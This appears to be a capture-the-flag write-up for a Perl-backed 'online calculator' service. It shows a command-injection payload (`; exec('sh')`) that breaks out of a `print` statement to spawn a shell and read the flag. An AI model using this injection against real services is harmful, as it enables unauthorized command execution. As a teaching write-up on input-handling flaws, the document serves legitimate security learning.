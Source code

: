 # Online Calculator

> > Pwn - 200pts
> 
> I have made this super cool online calculator so you don't have to use python or the built-in calculator of your operating system.
> 
> You can find it and test it out at: `46.101.254.102:1337`
> 
> PS: it is running over raw TCP, so connect using `nc 46.101.254.102 1337`
>
> 
> File: \<insert\_link\_to\_file\>

## Writeup

After tracing, reversing or otherwise getting some knowledge of what the server does,
we see the input is simply handed over to perl as such: `perl -e 'print <user_input>'`

This means that we can get a reverse shell by executing a new command in perl by terminating the print statement with something like `; exec('sh')`

Yielding the shell command;

```
perl -e 'print ; exec('sh')
```

This will give the user a shell, and the flag can be read:

```
cat flag
UiTHack18{Repeat_after_me:I_will_not_pass_user_input_to_an_interpreter!}
```

Yielding the flag:

```
UiTHack18{Repeat_after_me:I_will_not_pass_user_input_to_an_interpreter!}   
```
